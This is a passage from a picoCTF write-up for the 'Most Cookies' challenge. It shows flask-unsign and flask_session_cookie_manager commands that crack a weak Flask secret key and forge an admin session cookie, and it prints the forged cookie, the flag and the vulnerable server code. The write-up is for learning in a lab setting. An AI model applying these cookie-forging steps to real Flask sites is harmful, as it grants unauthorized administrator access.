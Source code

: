 After an agonizing 1 second, you are slapped with the secret key!! In my case, it was 'fortune'. Lucky me!

#### FASTER WAY THAT I USED TO FIND THE SECRET KEY

```console
$ flask-unsign --unsign --server 'http://mercury.picoctf.net:65344/' --wordlist wordlist.txt
```

### 2. Use the secret key to generate our own cookie

With the secret key, the rest will be a breeze. Time to forge our own session cookie! >:D

I found this godly [website](https://github.com/noraj/flask-session-cookie-manager) about encoding flask session cookies. On the website, there is an 'Encode' section ... so I used their code.

```console
$ flask_session_cookie_manager3.py encode -s fortune -t "{'very_auth':'admin'}"
# we attach the secret key and confirm admin
```

And ... we are blessed with our very own forged cookie!!!!!!!!!!!!!!!

```text
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGEVdA.Fqe_gJWtcM37UiFmpaWsMkhel6w
```

### 3. Insert our cookie into the [site](http://mercury.picoctf.net:65344/) to replace the cookie value

Copy and paste that bad boy into the cookie value.

### 4. Reload the page to receive salvation

## Flag

picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}

## References

### server.py

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

```